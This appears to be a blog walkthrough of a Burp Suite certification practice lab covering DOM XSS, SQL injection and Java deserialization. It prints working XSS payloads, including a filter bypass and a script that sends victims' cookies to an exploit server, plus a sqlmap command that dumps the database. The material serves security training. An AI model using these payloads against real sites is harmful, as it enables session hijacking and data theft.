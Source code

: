 ```yaml
---
toc: true
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true
title: Burp Suite Exam Prep !
header:
  image: /assets/images/burp/burp_header.jpeg
  teaser: /assets/images/burp/burp_teaser.png
  
---
```



### **EXAM PREP**

### **1/3: XSS**

DOM XSS in lookup function :

When the app is launched we immediatly see the search bar, what I always try is for XSS. 
I use the “Untrusted types” on Chrome. 

I put something in search and click on “search”

![untrusted.png](/assets/images/burp/untrusted.png)

By referring to DOM XSS labs on Portswigger, we see that there are 2 DOM XSS payloads who can work here : 

```jsx
\\"-alert(1)}//
or
"-alert(1)-"
```

XSS can be used to steal cookies of other users, then we need to try : 

```jsx
\\"-alert(document.cookie)}//
```

But no luck : 

![XSS blocked.png](/assets/images/burp/XSS_blocked.png)

We need to find a bypass and I found on the internet that we can bypass it by using : 

```jsx
\\"-alert(window["document"]["cookie"])}//
```

![XSS Bypassed.png](/assets/images/burp/XSS_Bypassed.png)

Now that we have the good payload we have to construct a payload with the exploit server link :

Add this code in exploit-server and 

```jsx
<script>

location='https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/?SearchTerm=%22-%28window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2Fexploit-0a6d00a40340d487c0a03af7016a000c%252eexploit-server%252enet%2F%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D%29-%22';

</script>
```

![Capture d’écran 2023-02-03 à 14.05.12.png](/assets/images/burp/Capture_decran_2023-02-03_a_14.05.12.png)

We just have to replace the session cookie to have access to Carlos account. 

### **2/3 SQL Injection**

We have access to a new feature : 

![AdvancedSearch.png](/assets/images/burp/AdvancedSearch.png)

We see a parameter ⇒ sorted-by vulnerable to SQLi

![VulnParam.png](/assets/images/burp/VulnParam.png)

I launched the sqlmap command below : 

```jsx
sqlmap -u "[https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/filtered_search?SearchTerm=&writer=&sort-by=DATE*](https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/filtered_search?SearchTerm=&writer=&sort-by=DATE*)" --cookie="_lab=46%7cMCwCFAuZTmvz13aVBBW1bpQM25dE2RVNAhRq8fmJk1vCl2i8uauGpq2N%2bIytqdEsQkFl0b%2b8pNzF%2f4p3No1yF19zA%2bj3GuVuecfTlUlSWFGu7SfWBmEz6Mu0JEWnJg5r4GggAibBFB9QtX0gMd%2fLhfFCfcTKNJtOaZ4mGvaUex6vw3k%3d; session=F8UksvHTO0lwQgGckaeEpePsgEJQTvs2" --dump
```

![SQLi result.png](/assets/images/burp/SQLi_result.png)

Now time to visit admin-panel and see what’s the next bug ! 

### **3/3 DESERIALIZATION**

Using Burp Scanner we can see that admin_pref are vulnerable :

![Launch Scan.png](/assets/images/burp/Launch_Scan.png)

![Burp Scan.png](/assets/images/burp/Burp_Scan.png)

Using Deserialization Scanner plugin on Burp gave me these informations : 

![JavaDeserialization.png](/assets/images/burp/JavaDeserialization.png)

Once the payload is generated and the request sent, we can go back to Burp Collaborator to see if we have a ping back : 

![Solution.png](/assets/images/burp/Solution.png)

BINGO ! We have then finished the lab. 

I hope you enjoyed reading this article as much as I enjoyed writing it.
